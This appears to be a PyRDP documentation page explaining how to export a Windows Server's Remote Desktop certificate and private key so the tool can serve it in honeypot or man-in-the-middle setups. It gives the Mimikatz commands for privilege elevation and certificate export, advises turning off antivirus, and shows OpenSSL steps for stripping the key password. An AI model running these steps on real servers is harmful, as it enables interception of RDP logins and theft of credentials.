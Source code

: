 # Extracting Windows Server Remote Desktop Certificate

This procedure is useful when running honeypots to support CredSSP (using `--auth ssp`).
It requires Administrative privileges on the target server and the use of Mimikatz, so it assumes that you are able to deactivate the Anti-Virus on the target server.


> **WARNING**: Cloning the certificate of the RDP server does not mean that the certificate will be trusted. Certificate trust requires a signed certificate from a CA that is **trusted** by the client. This is not likely to be the case in most scenarios. If you want to do that, you are on your own.

## Steps

1. Turn off AV so mimikatz doesn't get flagged. (Or use excluded directory)
2. Download [mimikatz latest release](https://github.com/gentilkiwi/mimikatz/releases)
3. Go to `Start > Run... > certlm.msc` (optional)
4. Identify the valid certificate under `Remote Desktop > Certificates` and note the thumbprint (optional)
5. Export the Remote Desktop certificates using Mimikatz:

   ```
   privilege::debug
   token::elevate
   crypto::capi
   crypto::certificates /systemstore:LOCAL_MACHINE /store:"Remote Desktop" /export
   ```

6. Convert public key to `.pem` using openssl:

   ```
   openssl x509 -inform DER -outform PEM -in pubkey.der -out pubkey.pem
   ```

7. Remove private key password (password for `.pfx` is "mimikatz")

   ```
   openssl pkcs12 -nodes -in privkey.pfx -out privkey.key
   ```

> **NOTE**: If `token::elevate` doesn't work. Make sure you are running mimikatz as SYSTEM (ie: under `psexec -s cmd.exe`)

You can now run `pyrdp-mitm.py` by specifying `-k privkey.key -c pubkey.pem` and PyRDP will serve the same certificate as the server.
With the certificate and the private key, RDP servers with Network Level Authentication (NLA) enabled can be MITM.
Use `--auth ssp` to do that.
